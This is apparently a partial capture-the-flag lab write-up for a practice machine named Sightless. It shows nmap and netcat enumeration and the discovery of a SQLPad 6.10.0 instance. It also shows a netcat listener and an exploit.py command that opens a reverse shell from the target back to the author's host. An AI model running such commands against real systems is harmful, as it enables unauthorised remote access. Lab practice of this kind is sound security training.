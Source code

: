 # Enumeration

```
nmap -sV --open -oA sightless_initial_scan 10.10.11.32
nmap -p- --open -oA sightless_full_tcp_scan 10.10.11.32
```

```
# Nmap 7.95 scan initiated Sat Sep 28 14:46:49 2024 as: nmap -sV --open -oA sightless_initial_scan 10.10.11.32
Nmap scan report for 10.10.11.32
Host is up (0.058s latency).
Not shown: 951 closed tcp ports (conn-refused), 46 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.95%I=7%D=9/28%Time=66F84F36%P=x86_64-apple-darwin21.6.0%
SF:r(GenericLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\
SF:x20Server\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20command:\
SF:x20try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20tr
SF:y\x20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep 28 14:47:36 2024 -- 1 IP address (1 host up) scanned in 47.11 seconds
```

```
nc -nv 10.10.11.32 21
10.10.11.32 21 (ftp) open

nc -nv 10.10.11.32 22
10.10.11.32 22 (ssh) open
SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.10

nc -nv 10.10.11.32 80
10.10.11.32 80 (http) open
```

```
nmap -sC -p 21,22,80 -oA sightless_script_scan 10.10.11.32
```

Nothing new there.

```
nmap -sV --script=http-enum -oA sightless_nmap_http_enum 10.10.11.32 
```

Again nothing new.

Added to the etc hosts file.

Opening the webpage I see this in the source:

``` html
 <p>SQLPad is a web app that lets users connect to various SQL servers via a browser. Click "Start Now" to try a demo!</p>
                <p style="text-align: center;">
                <a class="button" href="http://sqlpad.sightless.htb/"> Start Now</a>

```

Adding to the /etc/hosts


Opening the page it seems to allow SQL queries.

But I need to make a connection to the sql server. Which I don't know the connection string...

The version of SQL Pad:  Version: 6.10.0

This has an RCE vuln.

Getting a copy of the RCE is easy. And now I have a foothold.

`nc -nvlp 4000`
`python3 exploit.py http://sqlpad.sightless.htb:80 10.10.14.73 4000`

# Foothold

So it connects me as root... but I am not seeing anything.

Maybe I need to connect with SSH

Nope, neither root nor michael have a .ssh to copy

